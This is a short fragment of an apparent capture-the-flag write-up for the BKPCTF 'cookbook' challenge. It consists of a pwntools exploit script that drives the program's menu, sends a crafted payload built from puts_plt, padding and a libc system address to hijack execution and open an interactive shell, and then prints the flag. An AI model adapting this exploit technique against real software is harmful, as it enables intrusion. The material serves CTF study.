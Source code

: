 ```python

s.recvuntil("[q]uit\n")
s.sendline("g")
s.recvuntil("how long is the name of your cookbook? (hex because you're both a chef and a hacker!) :")
s.sendline("10")
payload = p32(puts_plt)
payload += "AAAA"
payload += p32(libc_system)
s.sendline(payload)

s.recvuntil("[q]uit\n")
s.sendline("q")

s.interactive()
```

### BKPCTF{hey_my_grill_doesnt_work_here}
